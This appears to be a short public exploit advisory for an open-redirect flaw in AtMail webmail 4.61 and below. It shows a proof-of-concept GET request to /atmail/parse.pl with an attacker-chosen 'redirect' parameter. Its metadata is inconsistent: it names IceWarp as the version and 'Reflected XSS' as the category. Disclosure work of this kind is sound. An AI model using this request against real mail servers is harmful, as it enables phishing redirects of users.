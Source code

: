 ```yaml
---
title: "AtMail 4.61 and below Open-Redirect"
collection: exploits
excerpt: "AtMail 4.61 and below Open-Redirect"
permalink: /exploit/atmail-redirect-exploit
date: 2020-03-11
tags:
  - exploit
  - CVE 2020
  - atmail
  - Open Redirect
  - AtMail Webmail version 4.61 nad below
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 11.03.2020  
**Software Link :** https://www.atmail.com/cloud-hosted-webmail/  
**Vendor Homepage :** https://www.atmail.com <br>
**Version :** IceWarp 4.61 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 67.0.3575.97  
**Category :** Reflected XSS  

<hr><br>  

**GET REQUEST :**

GET /atmail/parse.pl?redirect=**TARGET URL** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable File :**
/atmail/parse.pl<br> 
**Vulnerable Parameter :**
redirect


Packet Storm : <a href="https://packetstormsecurity.com/files/156705/AtMail-WebMail-4.61-Open-Redirect.html">156705</a>
